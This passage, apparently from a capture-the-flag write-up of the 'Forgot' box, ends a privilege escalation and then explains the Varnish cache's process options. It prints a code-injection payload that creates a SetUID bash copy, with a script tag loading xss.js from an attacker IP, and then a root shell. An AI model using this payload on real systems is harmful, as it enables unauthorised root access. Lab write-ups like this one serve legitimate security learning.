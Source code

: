 

I'll fix that by putting it in two `system` calls, using `\n` to
separate lines:



    oxdf=exec("""import os\nos.system("cp /bin/bash /tmp/0xdf")\nos.system("chmod 4777 /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>



Running the script now works, and results in a SetUID `0xdf`:



    diego@forgot:~$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1183448 Feb 24 16:09 /tmp/0xdf



Running it gives a root shell and the flag:



    diego@forgot:~$ /tmp/0xdf -p
    0xdf-5.0# cat /root/root.txt
    be34423d************************



## Beyond Root

### Varnish Config

#### Identifying Process

I'm curious to see more about how Varnish works. As root, I'll look for
it in the running processes:



    root@forgot:~# ps auxww | grep -i varnish
    vcache       834  0.0  0.1  18932  5524 ?        SLs  Feb22   0:25 /usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m            
    vcache       945  0.0  0.8 270152 34960 ?        SLl  Feb22   2:42 /usr/sbin/varnishd -j unix,user=vcache -F -a :80 -T localhost:6082 -f /etc/varnish/default.vcl -S /etc/varnish/secret -s malloc,256m            
    varnish+    1165  1.0  0.5  86552 21992 ?        Ss   Feb22  37:38 /usr/bin/varnishncsa -a -w /var/log/varnish/varnishncsa.log -D -P /run/varnishncsa/varnishncsa.pid



There are two `varnishd` processes (likely to help with scale), called
with the following options (from running `varnishd -h`):

-   `j unix,user=vcache` - Run with a UNIX jail for the user vcache.
    This is basically so that if the cache is exploited somehow, the
    resulting execution won't lead to much.
-   `-F` - Run in the foreground.
-   `-a :80` - The address Varnish listens on.
-   `-T localhost:6082` - The address of the varnish client management
    interface.
-   `-f /etc/varnish/default.vcl` - The config file.
-   `-S /etc/varnish/default.vcl` - This is the secret file that defines
    how a client authenticates to Varnish.
-   `-s malloc,256m` - The storage specification. `malloc` is saying to
    keep the cached files in memory, up to 256 MB.
